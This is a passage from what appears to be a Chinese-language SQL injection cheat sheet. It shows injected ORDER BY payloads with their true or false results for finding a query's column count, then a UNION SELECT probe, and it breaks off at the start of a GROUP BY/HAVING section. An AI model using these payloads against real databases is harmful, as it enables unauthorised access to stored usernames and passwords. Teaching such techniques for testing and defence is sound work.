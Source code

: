 确定列数

```
ORDER BY n+1;

```

示例： 查询语句:

```
SELECT username, password, permission FROM Users WHERE id = '1';

```

<table style="box-sizing: border-box; border-collapse: separate; border-spacing: 0px; background-color: rgb(255, 255, 255); border-top: 1px solid rgb(224, 224, 224); border-left: 1px solid rgb(224, 224, 224); font-family: Helvetica, Arial, &quot;Hiragino Sans GB&quot;, sans-serif; letter-spacing: normal; orphans: 2; text-indent: 0px; text-transform: none; widows: 2; word-spacing: 0px; -webkit-text-stroke-width: 0px; text-decoration-style: initial; text-decoration-color: initial;"><tbody style="box-sizing: border-box;"><tr style="box-sizing: border-box;"><td style="box-sizing: border-box; padding: 0px 3px; border-bottom: 1px solid rgb(224, 224, 224); border-right: 1px solid rgb(224, 224, 224);">1' ORDER BY 1--</td><td style="box-sizing: border-box; padding: 0px 3px; border-bottom: 1px solid rgb(224, 224, 224); border-right: 1px solid rgb(224, 224, 224);">True</td></tr><tr style="box-sizing: border-box;"><td style="box-sizing: border-box; padding: 0px 3px; border-bottom: 1px solid rgb(224, 224, 224); border-right: 1px solid rgb(224, 224, 224);">1' ORDER BY 2--</td><td style="box-sizing: border-box; padding: 0px 3px; border-bottom: 1px solid rgb(224, 224, 224); border-right: 1px solid rgb(224, 224, 224);">True</td></tr><tr style="box-sizing: border-box;"><td style="box-sizing: border-box; padding: 0px 3px; border-bottom: 1px solid rgb(224, 224, 224); border-right: 1px solid rgb(224, 224, 224);">1' ORDER BY 3--</td><td style="box-sizing: border-box; padding: 0px 3px; border-bottom: 1px solid rgb(224, 224, 224); border-right: 1px solid rgb(224, 224, 224);">True</td></tr><tr style="box-sizing: border-box;"><td style="box-sizing: border-box; padding: 0px 3px; border-bottom: 1px solid rgb(224, 224, 224); border-right: 1px solid rgb(224, 224, 224);">1' ORDER BY 4--</td><td style="box-sizing: border-box; padding: 0px 3px; border-bottom: 1px solid rgb(224, 224, 224); border-right: 1px solid rgb(224, 224, 224);">False - 列数为3</td></tr><tr style="box-sizing: border-box;"><td style="box-sizing: border-box; padding: 0px 3px; border-bottom: 1px solid rgb(224, 224, 224); border-right: 1px solid rgb(224, 224, 224);">-1' UNION SELECT 1,2,3--</td><td style="box-sizing: border-box; padding: 0px 3px; border-bottom: 1px solid rgb(224, 224, 224); border-right: 1px solid rgb(224, 224, 224);">True</td></tr></tbody></table>

附： 不断递增的列数，直到得到一个错误的响应。

### GROUP BY / HAVING 获​取当前查询的列名

示例： 给出的查询：

```
SELECT username, password, permission FROM Users WHERE id = '1';

```
